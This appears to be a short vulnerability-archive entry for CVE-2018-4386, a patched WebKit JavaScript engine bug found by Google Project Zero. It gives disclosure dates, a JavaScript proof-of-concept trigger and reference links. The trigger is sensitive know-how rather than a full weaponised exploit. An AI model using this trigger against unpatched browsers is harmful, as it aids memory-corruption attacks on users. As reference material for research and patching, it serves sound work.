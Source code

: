 # CVE-2018-4386

- Report: Sep 2018
- Fix: Nov 2018
- Credit: lokihardt, Google Project Zero

## PoC

```javascript
function trigger() {
    let o = {a: 1};
    for (var k in o) {
        {
            k = 0x1234;

            function k() {

            }
        }

        o[k];
    }
}

trigger();
```

## Reference

- [Apple](https://support.apple.com/en-us/HT209195)
- [WebKit](https://bugs.webkit.org/show_bug.cgi?id=189571)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1665)
